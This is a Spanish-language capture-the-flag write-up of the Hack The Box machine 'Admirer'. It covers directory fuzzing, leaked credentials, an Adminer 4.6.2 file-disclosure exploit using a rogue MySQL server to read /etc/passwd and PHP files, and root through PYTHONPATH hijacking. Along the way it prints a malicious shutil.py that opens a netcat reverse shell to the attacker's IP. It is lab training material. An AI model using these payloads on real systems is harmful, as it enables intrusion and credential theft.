# Admirer

**OS**: Linux \
**Dificultad**: Fácil \
**Puntos**: 20

## Resumen
- Fuzzing de directorios y archivos
- File Disclosure Adminer 4.6.2
- Mysql Rogue
- Escalamiento de Privilegios mediante sudo
- Python Hijacking

## Nmap Scan

`nmap -Pn -sV -sC -p- 10.10.10.187`



## Enumeración

Se puede visualizar que en el puerto `80` existe el archivo `robots.txt` y contiene la ruta `/admin-dir`.



Al acceder a la ruta `/admin-dir` nos arroja un código `403` que significa que no tenemos acceso.



### Fuzzing de archivos

Usamos gobuster para encontrar directorios y archivos.

`gobuster dir -u http://10.10.10.187/admin-dir/ -w /usr/share/dirb/wordlists/big.txt -x php,txt,html`



Podemos ver que hay 2 archivos a los que podemos acceder `contacts.txt` y `credentials.txt`. El archivo `credentials.txt` contiene nombres de usuarios y contraseñas.



Entramos al servidor **ftp** con las credenciales obtenidas y se pueden ver 2 archivos, los cuales descargamos a nuestra máquina.



Después de revisar los archivos nos encontramos con una carpeta llamada `utility-scripts` con archivos **php** los cuales se pueden visualizar en el navegador.



Se usa `wfuzz` para encontrar más archivos `php` en el directorio.

`wfuzz -c --hc 404,403 -w /usr/share/dirb/wordlists/big.txt http://10.10.10.187/utility-scripts/FUZZ.php`



## Exploit Adminer 4.6.2

Podemos ver que al entrar a la ruta `/utility-scripts/adminer.php` vemos un portal para conectarnos a un servidor mysql, también se puede  visualizar la versión de la aplicación.

Después de buscar un rato sobre vulnerabilidades de **Adminer 4.6.2** encontramos que tiene una falla que nos permite leer archivos del sistema. Esto funciona conectándonos a nuestro propio servidor mysql y posteriormente intentar leer archivos del sistema que serán reflejados en el **mysql.log**.

Para explotar la vulnerabilidad usaremos un [script](https://github.com/Gifts/Rogue-MySql-Server) para levantar un servidor mysql y modificaremos los archivos que queremos leer.

```
filelist = (
    '/etc/passwd',
    '/var/www/html/index.php'
)
```

Posteriormente ejecutamos el script.

`python mysql.py`


Nos conectamos a nuestro servidor desde la página web, donde le usuario sera el de nuestra máquina al igual que el password.



Después de conectarnos se nos genera un archivo `mysql.log` al revisar ese archivo podemos ver que nos trajo el archivo `index.php` el cual contiene el password del usuario waldo.



Procedemos a conectarnos por **ssh** con el usuario y password.



## Escalada de Privilegios

Podemos ver que tenemos permisos **sudo** para ejecutar un comando y también pertenecemos al grupo **admins**.



Después de revisar el archivo `admin_tasks.sh` nos percatamos de una función interesante llamada `backup_web()` que hace uso de `backup.py`.



Al leer el archivo `backup.py` vemos que está importando una función de `shutil` llamada `make_archive`.



### Python Hijacking
Nosotros podemos establecer la variable `PYTHONPATH` para reemplazar la ruta donde toma los paquetes python por nuestro propio `shutil.py` con la función `make_archive` modificada para obtener una reverse shell.

>PYTHONPATH es una variable de entorno que puede configurar para agregar directorios adicionales donde python buscará módulos y paquetes. Esta variable frecuentemente no está definida. Un módulo en Python es un script con extensión .py.

##### shutil.py
```python
import os
import subprocess
import socket

rhost = "10.10.15.12"
rport = 1234

def make_archive(dst, type, src):
        os.system("nc -e /bin/bash {0} {1}".format(rhost, rport))
```
Mandamos nuestro archivo al sistema por ssh con la herramienta `scp` y le damos permisos de ejecución.



Posteriormente establecemos nuestra variable de entorno con la ruta donde se encuentra nuestro `shutil.py`.

`export PYTHONPATH=/tmp:$PYTHONPATH`

Ponemos a la escucha nuestro netcat.

`nc -lvnp 1234`

Ejecutamos el comando sudo y le damos la opción **6**.

`sudo "PYTHONPATH=$PYTHONPATH" /opt/scripts/admin_tasks.sh`



Y veremos que obtenemos una reverse shell con privilegios root.



## Referencias
https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability \
https://github.com/Gifts/Rogue-MySql-Server